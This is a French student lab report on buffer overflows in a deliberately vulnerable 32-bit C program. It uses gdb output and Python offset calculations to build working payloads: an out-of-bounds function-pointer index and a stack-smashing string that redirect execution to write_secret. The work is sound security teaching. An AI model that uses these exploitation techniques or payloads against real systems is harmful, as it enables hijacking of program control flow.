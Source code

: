 # TP sur le Buffer Overflow

Pour référence :

```c
fptr  ptrs[3] = { NULL, get_wisdom, put_wisdom };

int main(int argc, char *argv[]) {

  while(1) {
      char  buf[1024] = {0};
      int r;
      fptr p = pat_on_back;
      r = write(outfd, greeting, sizeof(greeting)-sizeof(char));
      if(r < 0) {
        break;
      }
      r = read(infd, buf, sizeof(buf)-sizeof(char));
      if(r > 0) {
        buf[r] = '\0';
        int s = atoi(buf);
        fptr tmp = ptrs[s];
        tmp();
      } else {
        break;
      }
  }

  return 0;
}
```

## Question 1

La 1re variable que je trouve étant sujette à une attaque buffer overflow est `wis` dans la fonction `put_wisdom`.

## Question 2

Cette variable est remplie par la fonction dépréciée `gets`, qui écrit dans la mémoire sans vérifier la taille du buffer, jusqu'à rencontrer un `\n`, EOF ou `\0`.

```c
void put_wisdom(void) {
  char  wis[DATA_SIZE] = {0}; 
  int   r;

  r = write(outfd, prompt, sizeof(prompt)-sizeof(char));
  if(r < 0) {
    return;
  }
 
  r = (int)gets(wis); 
  if (r == 0)
    return;
  ...
}
```

## Question 3

Une autre variable est sujette à une attaque buffer overflow et qui ne se trouve pas dans la *stack* est le tableau `ptrs` qui est une variable global.

```c
fptr  ptrs[3] = { NULL, get_wisdom, put_wisdom };
```

## Question 4

```c
fptr tmp = ptrs[s]; // on peut overflow
tmp();
```

Si on calcul le bon offset `s`, on peut aller exécuter une autre fonction que `put_wisdom` ou `get_wisdom`.
Par exemple, on peut mettre l'adresse de `write_secret` dans `buf` et calculer l'offset pour que `s` pointe sur cette adresse, ce qui va exécuter `write_secret` quand on arrive à `tmp()`.

## Question 5

```
(gdb) print &buf
$2 = (char (*)[1024]) 0xbffff400
```

## Question 6

```
(gdb) print &ptrs
$3 = (fptr (*)[3]) 0x804a0d4
```

## Question 7

```
(gdb) print &write_secret
$4 = (void (*)(void)) 0x8048534 <write_secret>
```

## Question 8

```
(gdb) print &p
$6 = (fptr *) 0xbffff804
```

## Question 9

En python : 

```py
>>> ptrs = 0x804a0d4
>>> p = 0xbffff804
>>> (p-ptrs)//4
771675596
```

On divise par 4 car avec `ptrs[1]` on se déplace de 1 adresse, et 1 adresse = 4 octets sur un système 32 bits.
Ainsi, si on veut se déplacé de X octets, on peut en faite faire `ptrs[X//4]`.

Note : `//` est l'opérateur de division entière en python.

## Question 10

```py
>>> ptrs = 0x804a0d4
>>> buf = 0xbffff400
>>> (buf-ptrs + 64)//4
771675355
```

## Question 11

```py
>>> ptrs = 0x804a0d4
>>> write_secret = 0x8048534
```

Donc on écrit en input (en s'appuyant sur la réponse de la question 10) :
```
771675355\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x34\x85\x04\x8
~~~~~~~~~ ~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~
adresse   fin  On remplit buf pour atteindre buf[64]                adresse de 
                                                                    write_secret 
                                                                    en 
                                                                    little-endian 
                                                                    (\x8 ou \x08)
```

## Question 12
<!-- Suppose you wanted to overflow the wis variable to perform a
stack smashing attack. You could do this by entering 2 to
call put_wisdom, and then enter enough bytes to overwrite the
return address of that function, replacing it with the address
of write_secret. How many bytes do you need to enter prior to
the address of write_secret?
To work out the answer here, you might find it useful to use the
GDB backtrace command, which prints out the current stack, and
the x command, which prints a "hex dump" of the bytes at a given
address. For example, by typing x/48xw $esp you would print out
48 words (the w) in hexadecimal format (the x) starting at the
address stored in register $esp. -->

Dans un premier temps, on va mettre un *breakpoint* sur la ligne 62 de `wisdom-alt.c` pour voir l'état de la *stack* au moment où `gets` est appelé.

On récupère au passage toutes les adresses qui nous intéressent.

```
(gdb) break wisdom-alt.c:62
(gdb) cont
Continuing.

Breakpoint 1, put_wisdom () at wisdom-alt.c:62
62        r = (int)gets(wis);
(gdb) x/48wx $esp
0xbffff320:     0x00000001      0x0804a098      0x00000012      0x00000020
0xbffff330:     0x00000004      0x00000004      0x00000020      0x00000000
0xbffff340:     0xbffff348      0xb7e9e411      0x00000000      0x00000000
0xbffff350:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff360:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff370:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff380:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff390:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff3a0:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff3b0:     0x00000000      0x00000000      0x00000000      0x00000000
0xbffff3c0:     0x00000000      0x00000000      0x00000012      0xbffff400
0xbffff3d0:     0x00000000      0xbffff800      0xbffff818      0x0804880d
(gdb) print &write_secret
$1 = (void (*)(void)) 0x8048534 <write_secret>
(gdb) print &wis
$2 = (char (*)[128]) 0xbffff348
(gdb) backtrace
#0  put_wisdom () at wisdom-alt.c:62
#1  0x0804880d in main () at wisdom-alt.c:102
```

Je cherche ensuite le nombre d'octets entre `&wis` et l'adresse de retour de `put_wisdom` (qui est `0x0804880d`, dans la fonction `main`).

On peu enfin calculer le nombre d'octets à mettre dans `buf` pour réécrire l'adresse de retour de `put_wisdom` par celle de `write_secret`.

On écrit `A\x00` avant de remplir le reste de la mémoire pour que `gets` puisse lire, et on ajoute `r"\x34\x85\x04\x08"` à la fin pour écrire l'adresse de `write_secret` en little-endian.

```py
>>> r = r"""0x00000000      0x00000000 0x00000000      0x00000000      0x00000000      0x00000000 0x00000000      0x00000000      0x00000000      0x00000000 0x00000000      0x00000000      0x00000000      0x00000000 0x00000000      0x00000000      0x00000000      0x00000000 0x00000000      0x00000000      0x00000000      0x00000000 0x00000000      0x00000000      0x00000000      0x00000000 0x00000000      0x00000000      0x00000000      0x00000000 0x00000000      0x00000000      0x00000012      0xbffff400 0x00000000      0xbffff800      0xbffff818""" 
>>> # entre 0xbffff348 (&wis) et 0x0804880d (& de retour, pointe dans main)
>>> len(r.split()) * 4
148
>>> print(r"A\x00" + "A"*(148-2) + r"\x34\x85\x04\x08") # 2 octets pour que gets() puisse lire, padding, et &write_secret little-endian
A\x00AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x34\x85\x04\x08
```